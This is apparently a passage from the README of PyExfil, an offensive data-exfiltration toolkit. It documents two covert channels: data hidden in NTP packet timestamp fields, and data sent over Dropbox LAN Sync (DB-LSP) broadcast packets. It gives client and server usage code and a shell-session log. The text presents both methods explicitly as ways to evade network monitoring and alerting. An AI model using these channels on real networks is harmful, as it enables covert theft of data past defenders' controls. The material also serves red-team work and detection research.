 ```python
	if a._append(i):
		continue
	else:
		print(i)
print(a.Build())
```


### Communication

#### NTP Request
This method builds an NTP packet, assuming these are not as heavily monitored, and using the 8*4 bytes allocated for timestamping as the communication channel. This limits the communication to 32 bytes per packet in order to keep the structure of the NTP packet whole.

```python
# For client
from pyexfil.Comm.NTP_Body.client import Broadcast

Broadcast(data="Hello World", to='127.0.0.1', port=123, key="sekret")
# Notice that `to`, `port` and `key` are optional.

# For Server
from pyexfil.Comm.NTP_Body.server import Broker

b = Broker()
b.listen_clients()
# Customize the code to handle various commands.
```

#### DropBox LSP
Dropbox uses UDP broadcast packets to identify other Dropbox instances on the LAN and sync files between them. This exfiltration method can work in one out of two scenarios:
  * Unicast exfiltration - sending the data over DB-LSP packets to your server.
  * LAN Broadcast communication - assuming you're on the same LAN you can configure a listener and a sender to communicate over broadcast, masking the sender and receiver and in a way that might surpass some alerting mechnisms as there is "no direct connection" between them.

Shell Mode
```bash
$ sudo python dblsp.py

    To communicate between two hosts over broadcast you will need:
    	1) Setup an ecnryption key whichi will be identical on both hosts.
    		set key 123456
    	2) Know which host is going to broadcast the message:
    		set listener 10.0.0.1
    	3) Start active mode:
    		active 10.0.0.255

    Now just send messages with:
    	send "hello world"


DB_LSP > set key 123456
 key --> 123456.
DB_LSP > set listener 10.0.0.2
 listener --> 10.0.0.2.
DB_LSP > active 10.0.0.255
Starting active mode with 10.0.0.255.
Starting listener for 10.0.0.2.
10.0.0.255@DB_LSP > send hello
184 bytes sent to ('10.0.0.255', 17500).
10.0.0.255@DB_LSP >
```